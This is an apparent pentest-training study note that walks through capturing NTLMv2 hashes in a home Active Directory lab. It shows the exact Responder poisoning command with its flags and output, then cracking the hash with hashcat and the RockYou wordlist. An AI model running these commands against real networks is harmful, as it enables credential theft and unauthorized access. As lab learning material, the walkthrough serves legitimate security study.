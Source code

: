 
# Capturing Hashes with [Responder](/cybersecurity/tools/exploitation/responder.md)
Responder is a tool which can be used to perform [LLMNR poisoning](/PEH/active-directory/initial-vectors/LLMNR-poisoning.md) attacks on an [active directory](/computers/windows/active-directory/active-directory.md) domain. [LLMNR](/networking/protocols/LLMNR.md) is not the only protocol which responder can do a poisoning attack on. It can also be used against [NBT-NS](/networking/protocols/NBT-NS.md) and [MDNS](/networking/protocols/MDNS.md).
## Example Usage
Against our AD lab, we're going to use Responder to perform LLMNR poisoning. This will allow us to capture the hash sent for authentication from the victim machine. Once we have the hash, we can crack it to get the password for that machine.

With our AD lab up and active, we're going to use the following command with responder to attack the [domain controller](/computers/windows/active-directory/domain-controller.md)
```bash
responder -I eth0 -dwP
```
### Flags used:
- `-I/ --interface`: tells responder which network interface we want to use.
- `-d/ --DHCP`: tells responder to *also respond* to [DHCP](/networking/protocols/DHCP.md) broadcast requests.
- `-w/ --wpad`: starts a rogue [WPAD](/computers/windows/active-directory/WPAD.md) server (which will respond to hostname resolution requests)
- `-P/ --ProxyAuth`: tells Responder to force NTLM authentication (even if the target network doesn't have WPAD on)
- **OTHER**: `-v/ --verbose`: Will add hashes which you've already captured to the output.
With these flags on, and your attack box on the *same network* as the domain and domain computers, the output should look like this:
```bash
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.4]
    Responder IPv6             [fe80::a00:27ff:fed8:d39f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-06P8C35WKXO]
    Responder Domain Name      [SZWS.LOCAL]
    Responder DCE-RPC Port     [45001]

[+] Listening for events... 
```
Note that all of the poisoner and server types should be on. If you've used Responder before, and changed these, then change them back. Responder is now *listening to your `eth0` interface* for incoming packets related to the listed  protocols.
## Forcing Some Traffic
In a real pentest, you might not see any traffic until staff in the client organization actually login to their AD accounts. So, to force some traffic in our lab simulation, we can login to one of our regular domain VMs.
### Traffic From Powering Up Host
![](PNPT/PNPT-pics/active-directory-9.png)
![](/PNPT-pics/active-directory-9.png)
This is the traffic I was able to capture simply by powering on one of my AD user boxes (haven't logged in as that user yet). This traffic tells us that an MDNS (multicast DNS) request to resolve the hostname *`TRASHCAN.local`*. Our rogue server *responded w/ a poisoned answer* (which was sent to our user box which we powered up).
### Searching for IP in filesystem
Now, if we go to the user VM's File Explorer and search for the IP *of our attacking machine* we get the following hash in Responder:
![](PNPT/PNPT-pics/active-directory-10.png)
![](/PNPT-pics/active-directory-10.png)
This screenshot shows the hash our rogue server received when Dan Dumpster searched for our attacking IP address while logged in to a domain computer. Now that we have the hash (which is an DES-made hash) we can easily crack it to get Dan Dumpster's password.
## Cracking the Hash
To crack this hash, we're going to use [Hashcat](/cybersecurity/tools/cracking/hashcat.md). Hashcat is a cracking program which *ideally* uses GPU processing to crack hashes in many different formats. To crack this hash, we're going to specify a value of 5600 to the `-m` flag. This tells hashcat that we're cracking an [NTLMv2](/networking/protocols/NTLM.md) hash.

To give hashcat the hash, copy and paste the entire hash into a file called `hashes.txt`. The hash includes the username and password, so everything from `ddumpster::LANDFILL:...` to `...00000000` at the very end (in my example).

Once that's saved in a file, the command we use w/ hashcat is as follows:
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
We're also using the RockYou [wordlist](/cybersecurity/tools/scanning-enumeration/wordlists/seclists.md) which hashcat will use to generate hashes to try and match the one we're looking for. Even in a VM, this crack only takes hashcat about 16 seconds:
![](PNPT/PNPT-pics/active-directory-11.png)
Now we can log in as Dan Dumpster!

> [!Resources]
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)
